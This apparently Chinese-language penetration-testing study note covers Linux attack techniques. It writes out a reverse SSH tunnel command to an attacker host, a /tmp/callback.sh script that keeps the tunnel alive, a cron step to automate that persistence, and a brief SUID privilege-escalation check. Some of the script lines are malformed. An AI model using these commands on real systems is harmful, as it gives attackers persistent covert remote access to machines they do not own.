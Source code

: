```yaml
---
title: 网络攻防实战 Linux攻击
tags: 网络攻防实战
categories: Technologyf反向连接
---
```


* 反向连接

  * target（受控端）主动连接attacker控制端），在主机A和主机B之间建立一个远程连接，通过这个连
    接主机B可以主动的向主机A发送一些请求

   `ssh –N –R 54321:localhost:22 royce@10.0.10.160 –i /root/.ssh/pentestkey`

  * `-R`: 反向连接( 若用`-L`是正向连接 )
  * 靶机监听22号端口,要求攻击机打开54321端口,以后对攻击机的访问相当于对靶机的访问,即: attacker对port 54321的操作,在target眼中相当于在本机的port 22的操作

* ```shell
  
  ```

* Create a bash script` /tmp/callback.sh`

  ```Shell
  #!/bin/bash 
  createTunnel(){ /usr/bin/ssh -N -R 54321:localhost:22
  pentest@10.0.2.10 –i /root/.ssh/pentestkey }
  /bin/pidof ssh if [[ $? -ne 0 ]]; then createTunnel
  fi
  ```

* Automate an SSH tunnel with **cron**

  ```Shell
  chmod 700 /tmp/callback.sh~
  crontab -e
  ```

* Escalate privileges with SUID binaries

  * ```Shell
    # ls -l /usr/bin/passwd                                            2 ⨯ 1 ⚙
    -rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
    ```

    可以看到`passwd`的执行权限是`s`而非通常的`x`,代表`SUID`